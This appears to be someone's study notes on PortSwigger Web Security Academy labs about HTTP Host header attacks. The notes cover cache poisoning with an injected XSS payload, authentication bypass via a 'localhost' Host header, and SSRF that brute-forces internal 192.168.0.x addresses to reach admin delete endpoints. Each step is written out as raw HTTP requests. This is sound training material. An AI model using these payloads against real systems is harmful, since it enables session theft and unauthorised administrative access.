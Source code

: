 <span style="color:yellow;font-weight:700;font-size:30px">
HTTP Host header attacks
</span>
https://portswigger.net/web-security/host-header

# How to identify and exploit HTTP Host header vulnerabilities
https://portswigger.net/web-security/host-header/exploiting

How to identify and exploit HTTP Host header vulnerabilities:
1. Supply an arbitrary Host header
2. Check for flawed validation
3. Send ambiguous requests
- Inject duplicate Host headers
- Supply an absolute URL
5. Add line wrapping ( by indentation)
6. Inject host override headers (X-Forwarded-Host / X-Host / X-Forwarded-Server / X-HTTP-Host-Override / Forwarded)

examples:
***using non-numeric port:***
```
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```
```
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```
```duplicate host headers:
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```

# ***[1. Lab: Web cache poisoning via the Host header](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests)***

 This lab is vulnerable to web cache poisoning due to discrepancies in how the cache and the back-end application handle ambiguous requests. An unsuspecting user regularly visits the site's home page.

To solve the lab, poison the cache so the home page executes alert(document.cookie) in the victim's browser. 

 xss shit

 1. change original HH - observe 500 failed
 2. add another HH and change value to test - observe reflection in response
 3. experiment with different values until payload:

```
    Host: 0a18008d04cfbdb1c061c9350092009a.web-security-academy.net
    Host: blah"onerror=alert(document.cookie)//
```
note:


request field:
```
Cache-Control: max-age=0
```

response fields:
```
Cache-Control: max-age=30
Age: 28
X-Cache: hit
```

material:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control

**XSSed the Cache**


# ***[2. Lab: Host header authentication bypass](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass)***

To solve the lab, access the admin panel and delete Carlos's account. 

1. request admin panel - observe 401 unauthorised:
```
    GET / HTTP/1.1
    Host: 0ab2006f037c2dbbc013efc9004f0026.web-security-academy.net
```

response:
```
    HTTP/1.1 401 Unauthorized

```
2. change Host - experiment different values:
```
    127.0.0.1 - fails

```
payload:
```
    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
```

#

# ***3. Lab: Routing-based SSRF***
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf

<!-- note: 
require collaborator? just for first stage of finding out if header is vulnerable so we can skip testing via collaborator (sorry for it - will be comleted with burp pro later) -->


1. send **GET /admin /HTTP1.1** to **intruder**, Change Host field to **192.168.0.x**, mark **x** with payload marker (§x§):

```
GET /admin HTTP/1.1
Host: 192.168.0.§0§
```

2. use intruder payload "number" and set:
```
from: 0
to: 255
step: 1
```

3. find the only response that is not **504** and send to repeater

4. send and observe we get admin panel in response with delete user interface

5. **request in browser** and send delete request: observe it fail. 

6. research in proxy. find out **host** changed back to original.

7. change to local adress and try again

# portswigger solution:

    in admin panel research delete form:
    observe method: **POST**
    observe path: **admin/delete** 
    observe required fields: **csrf - sVn2OQMP3K1id3suCsKbb2WgwH1iA8KU**
    username - 

resend message to repeater and change to craft a valid delete request:

    POST /admin/delete HTTP/1.1
    Host: 192.168.0.49
    ..

    csrf=sVn2OQMP3K1id3suCsKbb2WgwH1iA8KU&username=carlos

**DELETED**


# **4. Lab: SSRF via flawed request parsing**
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing

 To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos. 

<!-- collaborator stuf not realy necessery to solve (TBC) -->

change **GET / HTTP/1.1** to absolite URL:
**GET https://0af1000704da6058c07b1d8d00c200e4.web-security-academy.net/ HTTP/1.1** observe it allows arbitary headers. 

in intruder add **/admin** to the absolute URL and replace host header with 192.168.0.§0§ - to find the IP of the admin 
request:
    GET https://0af1000704da6058c07b1d8d00c200e4.web-security-academy.net/admin HTTP/1.1
    Host: 192.168.0.183

response:
    HTTP/1.1 302 Found
    Location: /admin

send to repeater, send again and follow redirection to the admin panel. find the CSRF value and copy it. change the request method to **POST** and enter the **csrf value** & **username value**. add the **/delete** and send:

request:
    POST https://0af1000704da6058c07b1d8d00c200e4.web-security-academy.net/admin/delete?username=carlos HTTP/1.1
    Host: 192.168.0.183

    csrf=67LxKpu1jyf0B0r8fD6r1VKjkFokO6of&username=carlos

see lab solved banner

# Done!













